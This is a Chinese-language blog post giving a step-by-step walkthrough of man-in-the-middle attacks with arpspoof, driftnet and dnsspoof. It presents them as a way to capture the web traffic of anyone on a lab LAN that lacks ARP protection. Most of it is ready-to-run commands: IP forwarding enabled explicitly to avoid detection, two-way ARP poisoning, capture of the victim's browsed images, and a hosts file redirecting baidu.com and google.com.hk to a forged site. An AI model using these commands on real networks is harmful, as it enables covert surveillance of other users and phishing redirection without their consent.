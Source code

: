 ```yaml
---
layout: single
author_profile: true
comments: true
title: arpspoof and dnsspoof
category: cybersecurity
tags: [DNS, 网络安全]
---
```


最近搞了一个监听神器，尽管使用了网卡混杂模式，不过监听到的几乎全是本地流量，
为了获取更多有用的数据，搞一下中间人攻击，最基本的就是arpspoof + IP转发，这样就可以获得局域网内任何人的上网流量，
难得的是实验室没有做ARP防护，给arpspoof一个大行其道的机会。

# arpspoof

1. 实战环境

* 攻击者(kali linux)：10.10.10.1
* 攻击目标：10.10.10.2
* 默认网关：10.10.10.254

2. 攻击步骤

首先在本地开启IP转发，否则很容易被发觉。 

> echo 1 >> /proc/sys/net/ipv4/ip_forward

用man arpspoof查看参数详细说明  
首先跟10.10.10.2说我是网关10.10.10.254 

> arpspoof -i eth0 -t 10.10.10.2 10.10.10.254

然后跟网关10.10.10.254说我是10.10.10.2，完成双向欺骗

> arpspoof -i eth0 -t 10.10.10.254 10.10.10.2

上面两条arpspoof指令可以用下面一个指令完成

> arpspoof -i eth0 -t 10.10.10.2 -r 10.10.10.254

最后利用[driftnet](http://www.ex-parrot.com/~chris/driftnet/)工具捕获并友好地显示10.10.10.2在网上浏览的图片

> driftnet -i eth0

[REF](http://www.freebuf.com/articles/system/5157.html)


# dnsspoof

### 1. 攻击环境

* 攻击者(kali linux)：10.10.10.1
* 攻击目标：10.10.10.2
* 默认网关：10.10.10.254
* DNS服务器: 8.8.8.8
* 伪造网站: 10.10.10.3

### 2. 攻击步骤

先进行arp欺骗，以中转攻击目标的所有上网流量

> echo 1 >> /proc/sys/net/ipv4/ip_forward  
  arpspoof -i eth0 -t 10.10.10.2 10.10.10.254  
  arpspoof -i eth0 -t 10.10.10.254 10.10.10.2  


按照[hosts文件格式](http://linux.die.net/man/5/hosts)，创建一个dnsspoof.hosts文件,
当受害者请求该文件中的域名解析时，我们就返回给他一个伪造的IP地址，让其访问我们伪造的网站。

> cat dnsspoof.hosts  
> 10.10.10.3     *.baidu.com  
> 10.10.10.3     *.google.com.hk  

执行dnsspoof, -f指定hosts文件，host 10.10.10.2 and udp port 53 遵从tcpdump流量过滤规则

> dnsspoof -i eth0 -f dnsspoof.hosts host 10.10.10.2 and udp port 53

这样当攻击目标10.10.10.2访问baidu.com或者google.com.hk时，受害者访问的实际上是10.10.10.3指定的网站。

通过抓包分析，dnsspoof的原理如下  

> 由于DNS协议使用是传输层协议是UDP协议, 
  这样无需像TCP那样建立连接就可以轻松的伪造应答包，包括源IP.
  10.10.10.2发送DNS 查询包问DNS服务器www.baidu.com的IP地址是多少？
  10.10.10.1装作DNS服务器（伪造IP）向攻击目标发送一个DNS响应包说www.baidu.com的IP地址是10.10.10.3。


[REF](https://tournasdimitrios1.wordpress.com/2011/03/03/dns-spoofing-with-dnsspoof-on-linux/)
